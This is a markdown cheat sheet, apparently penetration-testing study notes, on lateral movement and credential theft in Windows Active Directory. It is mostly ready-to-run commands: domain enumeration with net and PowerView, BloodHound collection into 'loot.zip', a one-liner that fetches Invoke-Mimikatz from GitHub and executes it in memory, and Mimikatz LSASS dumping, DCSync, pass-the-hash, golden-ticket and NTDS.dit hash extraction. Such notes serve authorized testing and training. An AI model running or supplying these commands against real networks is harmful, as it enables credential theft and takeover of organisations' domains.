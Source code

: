 # Lateral Movement  
## Contents 
- [Lateral Movement](#lateral-movement)
  * [Contents](#contents)
  * [What to Look For](#what-to-look-for)
  * [Quick Commands](#quick-commands)
  * [Post Exploitation Enumeration](#post-exploitation-enumeration)
    + [PowerView](#powerview)
  * [Bloodhound](#bloodhound)
  * [Mimikatz](#mimikatz)
  
## What to Look For 
Post Initial Exploitation  
Enumerate users and groups on the host.     
What privilege level does your user have?       
Is privilege escalation needed?    
Check user home folders (including command history, browser history, zipped archives)   

## Quick Commands  

    net user
    net user /domain
    net user [username] /domain
    
    net localgroup
    net group /domain
    net group /domain "Domain Admins"  
         
### PowerShell Active Directory Module (only on DC by default)
List all hosts on the domain      

    Get-ADComputer -Filter * -Properties ipv4Address, OperatingSystem, OperatingSystemServicePack | Format-List name, ipv4*, oper*      
    
    Get-ADUser
    Get-ADDomain
    Get-ADGroup
    Get-ADGroupMember -identity "Domain Admins" -Domain test.local -DomainController 10.10.10.10
    Find-DomainShare   
    
## Post Exploitation Enumeration      
### PowerView   
Powershell script to enum domain after gaining admin access to machine   

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)   
[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)    
[Cheat sheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)   

    powershell -ep bypass   
    . .\PowerView.ps1   
    Get-NetDomain   
    Get-NetUser   
    Get-NetComputer -fulldata   
    
## Bloodhound    
[Bloodhound](https://github.com/BloodHoundAD/BloodHound)   
Bloodhound - GUI app installed on attack box, SharpHound - powershell script to enum and collect data -> exfiltrate as a zip file.     

    apt-get install bloodhound     

on victim, transfer file then import into Bloodhound and run queries   

    . .\SharpHound.ps1   
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip        
    
## Mimikatz  
Extracts passwords, hashes, PIN codes and kerberos tickets from memory.   
[Mimikatz and Password Dumps Reference](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/)    
[Online Password Cracker - Crackstation](https://crackstation.net/)     
[Dumping Hashes with Mimikatz - Video](https://www.youtube.com/watch?v=AZirvtZNIEw)   
Loading Powershell Script 

    powershell.exe-exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"    
   
    privilege::debug   
    lsadump::sam   

Dumping credentials from LSASS  

    mimikatz # privilege::debug   
    mimikatz # sekurlsa::logonpasswords   
Dumping credentials from a minidump   

    mimikatz # sekurlsa::minidump lsass.dmp   
    mimikatz # sekurlsa::logonPasswords   
    
DCSync the krbtgt hash  

    mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt   
Pass the hash   
    
    mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<cmd>   
Golden ticket creation and pass the ticket   
    
    mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>   
    
## AD Password Files  
NTSDS.dit (db) and SYSTEM registry hive. Can use built in ntdsutil.exe to backup AD. Then use another tool to extract DC hashes, since NTDS.dit is encrypted and opened exclusively for use by OS (can't be copied).     
Back up AD files:    

    ntdsutil           
    activate instance ntds     
    ifm          #commands will generate backup of data in C:\ntds directory. Crack locally.    
    
Then locally extract NTDS.dit and SYSTEM registry data using Impacket script secretsdump.py  

    $ python secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL        
